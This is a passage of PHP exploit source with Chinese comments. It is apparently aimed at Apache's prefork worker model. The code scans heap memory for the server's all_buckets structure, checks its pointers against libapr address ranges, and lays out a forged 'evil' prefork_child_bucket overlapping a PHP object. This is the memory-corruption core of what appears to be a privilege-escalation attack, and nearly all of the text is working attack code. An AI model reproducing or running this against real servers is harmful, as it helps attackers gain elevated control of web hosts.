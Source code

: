         echo "libapr data start addr:0x".dechex($libapr_data_start_addr)."\n";
        echo "libapr data end addr:0x".dechex($libapr_data_end_addr)."\n";

        $result = array();
        $result_index = 0;
        for($i = 0;$i<$heap_end_addr - $heap_start_addr;$i+=8){//遍历heap
            $mutex_addr = read_mem_qword($heap_start_addr + $i);//prefork_child_bucket中的mutex
            if( $heap_start_addr <$mutex_addr && $mutex_addr<$heap_end_addr ){

                $meth_addr = read_mem_qword($mutex_addr + 8);//apr_proc_mutex_t中的meth

                if( $libapr_data_start_addr < $meth_addr && $meth_addr < $libapr_data_end_addr){

                    $function_point = read_mem_qword($meth_addr+8);
                    if($libapr_text_start_addr < $function_point && $function_point < $libapr_text_end_addr){
                        $result[$result_index++] = $heap_start_addr + $i - 8 -8;
                    }
                }
            }
        }

        //在我的环境中，有多个地址满足是all_buckets 地址的要求，但是只有第3个才是正确的
        if( count($result)!= 4 ){
            return 0;
        }
        else{
            return $result[2];
        }
    }

    echo "PID: ".getmypid()."\n";

    $parent_struct_addr = locate_self_parent_struct_addr();
    if($parent_struct_addr == 0){
        die("get self parent struct addr error\n");
    }
    echo "self parent struct addr:0x".dechex($parent_struct_addr)."\n";

    $parent_arr_addr = locate_parent_arr_addr();
    if($parent_arr_addr){
        echo "parent arr addr:0x".dechex($parent_arr_addr)."\n";
    }

    $all_buckets_addr = locate_all_buckets_addr();
    if($all_buckets_addr == 0){
        die("get all_buckets addr error\n");
    }
    echo "all_buckets addr:0x".dechex($all_buckets_addr)."\n";

    $evil_parent_start_addr = $parent_arr_addr + 0x24 * 10;//(我这里的parent 就是 prefork_child_bucket结构，0x24是每个prefork_child_bucket的大小，10参考http-mpm.conf中prefork的MaxSpareServers)

    echo "evil prefork_child_bucket start addr:0x".dechex($evil_parent_start_addr)."\n";

    //我们需要将prefork_child_bucket与zend_object结合，使其包含zend_object 的 properties字段,因此prefork_child_bucket的"大小"是40+16字节
    $evil_parent_end_addr = $evil_parent_start_addr + 40+16;
    echo "evil prefork_child_bucket end addr:0x".dechex($evil_parent_end_addr)."\n";
